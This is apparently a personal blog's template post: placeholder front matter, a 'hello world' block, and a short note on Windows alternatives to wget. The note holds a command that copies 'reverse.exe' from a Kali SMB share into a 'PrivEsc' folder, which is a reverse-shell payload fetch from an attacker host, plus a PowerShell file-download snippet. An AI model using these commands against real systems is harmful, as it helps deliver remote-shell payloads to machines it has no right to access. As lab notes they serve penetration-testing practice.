 ```yaml
---
title: Writing a New Post
author:
  name: Wraithdemon
  link: https://github.com/prabhatjoshi321
date: 2021-12-08 14:10:00 +0800
categories: [Blogging, Tutorial]
tags: [writing]    # TAG names should always be lowercase
---
```



# This is a first blog post
```

hello world


```


####  wget alternative in windows
```shell
---
	copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe

	$client = new-object System.Net.WebClient
	$client.DownloadFile("http://www.xyz.net/file.txt","C:\tmp\file.txt")
---
```
